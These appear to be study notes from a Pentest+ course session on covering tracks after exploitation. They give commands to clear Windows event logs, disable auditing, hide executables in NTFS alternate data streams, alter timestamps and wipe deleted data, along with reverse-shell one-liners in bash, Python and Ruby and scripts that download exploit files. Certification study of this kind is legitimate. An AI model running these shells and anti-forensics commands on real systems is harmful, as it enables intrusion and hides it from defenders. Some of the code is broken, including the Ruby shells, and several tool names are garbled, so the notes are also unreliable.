

# Session 18: Pentest+

## Table of Contents
- [Overview](#overview)
- [Disabling Auditing](#disabling-auditing)
- [Clearing Logs](#clearing-logs)
- [Manipulating Logs](#manipulating-logs)
- [Covering Tracks on Network or OS](#covering-tracks-on-network-or-os)
- [Hiding Files](#hiding-files)
- [Disabling Windows Functionality](#disabling-windows-functionality)
- [Automation Scripting](#automation-scripting)
- [Tools Overview](#tools-overview)
- [Summary](#summary)

## Overview
This session focuses on post-exploitation techniques for covering tracks in pentesting, specifically in penetration testing (Pentest+) scenarios. After achieving objectives in an attack, attack prevention requires eliminating evidence to avoid detection. Six primary methods are covered: disabling auditing, clearing logs, manipulating logs, covering tracks on network or OS, hiding files, and disabling Windows functionality. Techniques include tools, scripts, and commands for Windows and Linux environments.

## Disabling Auditing
Disabling auditing prevents logging of activities on the target system, requiring administrative access. Tools like auditpol.exe (available online) can disable auditing on Windows after gaining admin privileges. In Metasploit, the `clearlogs` option wipes logs post-exploitation.

**Key Techniques:**
- Windows auditpol.exe: Download and run with admin rights to disable auditor conditions.
- Metasploit: Use `clearlogs` to wipe traces after exploitation.
- Requires admin access; ineffective without it.

**Notifications:** Transcript spellings corrected: "metab" to "Metasploit"; no other major misspellings noted.

## Clearing Logs
Clearing logs involves removing traces from system event logs. Methods vary by OS and include automated scripts, PowerShell, and manual deletion.

**Key Concepts/Deep Dive:**
- Windows Event Viewer logs: Application, system, security logs can be cleared manually via Event Viewer or using batch scripts.
- Automated batch script example (clears all logs):
  ```
  @echo off
  wevtutil cl Application
  wevtutil cl System
  wevtutil cl Security
  echo Logs cleared
  ```




- Web browser: Clear cookies, cache, autofill data, and toolbar data.
- Windows personalization settings: Disable privacy options to prevent tracking.
- Linux: Manually delete files in `/var/log/` directory or use commands to clear history.

**Notifications:** "ript" likely "script"; "peering logs" possibly "clearing logs" – assumed typo for "clearing".

## Manipulating Logs
Partial log clearing without complete removal; involves editing log entries.

- Manual: In Windows Event Viewer, delete specific events or all logs under logs sections.
- Automated tools: WebRoot (for graph/random manipulation? possibly tool name misspoken).
- PowerShell: `Clear-EventLog` function to wipe logs.

No specific lab demos provided in transcript.

## Covering Tracks on Network or OS
Techniques to hide activities on network and OS levels, including file management and uninstallation.

**Key Concepts/Deep Dive:**
- Delete installed files/tools.
- Reverse shells: Execute commands externally via reverse HTTP shells, ICMP tunnels, DNS tunneling, or TCP parameter manipulation.
  - Reverse ICMP tunnels: Encapsulate payload in ICMP echo/reply packets.
  - DNS tunneling: Exfiltrate data via malicious DNS queries.
  - TCP manipulation: Alter acknowledgment/sequence numbers to distribute payloads.

> [!NOTE]
> Reverse shells allow external command execution, aiding track covering on networks.

Commands for file deletion/uninstallation not detailed beyond general statements.

## Hiding Files
Conceal malicious files to maintain persistence without detection.

**Key Concepts/Deep Dive:**
- Linux: Add dot prefix (e.g., .hidden_file) to hide from normal user view; use `ls -la` to see hidden files.
- Windows: Create Alternate Data Streams (ADS) in NTFS. Example command to hide malicious file behind legitimate one:
  ```
  type malicious.exe > legitimate.txt:ads.exe
  ```

  - View with `more < legitimate.txt:ads.exe`.
  - Execute both files: `start legitimate.txt;ads.exe`.

This exploits NTFS to run hidden executables behind normal files, maintaining persistence undetected.

**Lab Demo:** Transcript provides step-by-step ADS creation and execution using CMD commands.

**Notifications:** "htp" likely "http" if present; "cubectl" not in transcript.

## Disabling Windows Functionality
Disable features that aid forensics, such as timestamps and restoration options.

**Key Deep Dive:**
- Time stomping: Change file timestamps using `fsutil` (e.g., disable last access timestamps).
- Disable hibernation: Via registry editor or `powercfg`.
- Disable paging files: In System > Advanced system settings > Performance > Advanced > Virtual memory.
- Disable system restore.
- Disable thumbnail cache via Group Policy Editor.
- Cipher.exe: Overwrite deleted data to prevent recovery.
- Paid tools: CCleaner Pro, Bleachbit for enhanced cleaning.

These make digital forensics harder by altering timestamps and removing temporary artifacts.

## Automation Scripting
Automation involves scripting downloads, uploads, and reverse shells in various languages for quick execution on targets.

**Key Concepts:**
- Download files via scripting to avoid native tools.
- Reverse shells: One-liners for persistence without uploading scripts.

**Lab Demos:**
1. **Python File Download:**
   ```python
   import requests
   url = "https://example.com/exploit.zip"
   r = requests.get(url, allow_redirects=True)
   open("downloaded.zip", "wb").write(r.content)
   ```

2. **PowerShell Download (and optionally execute):**
   ```
   powershell.exe -c "New-Object System.Net.WebClient; DownloadFile('https://example.com/exploit.zip', 'C:\\Temp\\downloaded.zip')"
   ```

3. **Bash Reverse Shell:**
   ```
   bash -i >& /dev/tcp/LOCALHOST_IP/PORT 0>&1
   ```

4. **Python Reverse Shell:**
   ```python
   import socket,os;s=socket.socket();s.connect((os.getenv('RHOST'),int(os.getenv('RPORT'))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];os.system('sh -i')
   ```

5. **Ruby Reverse Shell (Linux):**
   ```
   ruby -rsocket -e 'e=TCPSocket.new("RHOST","RPORT");IO.popen("sh").each{rh};e.print eh};e.close'
   ```

6. **Ruby Reverse Shell (Windows):**
   ```
   ruby -rsocket -e 's=TCPSocket.new("RHOST","RPORT");while cmd = s.gets;IO.popen(cmd,"r"){|io|c.io.read;io.close};end'
   ```

Export environment variables for RHOST/RPORT before execution.

> [!IMPORTANT]
> Memorize these scripts for environments lacking external tools.

## Tools Overview
Categorization of pentesting tools by function.

| Category | Tools | Description |
|----------|-------|-------------|
| Information Gathering | Harvester, Google Dork, Tens (likely "tense" or tool name), BackOnNG, Maltego | For OSINT and reconnaissance. |
| Scanning/Vulnerability Assessment | Nessus, Nmap, SQLMap, WPScan, Brakeman, RIPS, OWASP ZAP, NoSQLMap | Detecting vulnerabilities in web apps, networks. |
| Networking | Wireshark, Tcpdump, Hping | Packet analysis and manipulation. |
| Wi-Fi | Aircrack-ng Suite | Wireless testing tools. |
| Social Engineering | SET (Social-Engineer Toolkit), BE (Browser Exploitation Framework) | Phishing and browser exploits. |
| Remote Connections | SSH, Netcat, Ncat, Proxychains | Secure/concealed connections. |
| Credential Attacks | Hydra, John The Ripper, Hashcat, Mimikatz, Medusa | Brute-force and hash cracking. |
| Wordlist Creation | Crunch, CeWL | Generate custom lists. |
| Directory Busting | Dirbuster, Gobuster, Burpsuite | Discover hidden directories. |
| Steganography | Steghide, Metagraph, Openstego | Hide data in images/media. |
| Debugging | GDB (GNU Debugger) | Cross-platform debugging. |
| Exploits | Exploit-DB, Metasploit | Framework with modules for various exploits. |

**Cloud Tools:** Scout Suite (auditing), CloudRoot (info gathering, multi-cloud), Prowler (AWS-specific), Cloud Custodian (GRC).

## Summary

### Key Takeaways
```diff
+ Disabling auditing and clearing logs are essential first steps in covering tracks, requiring admin access and tools like auditpol or Event Viewer.
- Manipulating logs incompletely can leave partial traces; fully clear or use stealthy tools to avoid detection.
+ Network track covering via reverse shells and tunneling (ICMP, DNS) exploits protocols to execute payloads covertly.
- Hiding files with ADS in Windows or dot-prefixing in Linux maintains persistence but requires careful execution to avoid visibility.
+ Disable Windows features like timestamps, paging, and restore points to hinder forensics.
- Avoid relying only on manual methods; combine with automation scripts for efficiency in varied environments.
+ Tools like Metasploit, PowerShell, and scripting in Python/Ruby/Bash automate downloads and shells for rapid exploitation.
- Common pitfall: Failing to test scripts across environments; memorize language-specific reverses for compatibility.
+ Categorize tools by function (e.g., networking with Wireshark, social engineering with SET) for efficient toolkit assembly.
```

### Expert Insight
**Real-world Application:** In enterprise pentests, covering tracks prevents alerting SIEM systems during red-team engagements. Use reverse shells for covert C2 and cipher.exe for data destruction to simulate advanced persistent threats (APTs).

**Expert Path:** Master Metasploit modules for log clearing and practice scripting in multiple languages to adapt to targets (e.g., Python for Linux servers, Ruby for Rails apps). Integrate with tools like Burpsuite for web-based hiding; study ADS exploits for Windows persistence.

**Common Pitfalls:** Uploading obvious tools triggers alerts—use native cmdlets or scripts. Incomplete log clearing (e.g., apps but not security) leaves breadcrumbs. Forgetting to disable auditing enables retroactive detection.

**Lesser Known Things:** ADS in Windows allows multi-stream files, enabling complex payloads behind innocuous executables. Cipher.exe's overwrite feature employs DoD-level erasure (Gutmann for thoroughness). Proxychains can chain SOCKS proxies for anonymized connections during cleanup.
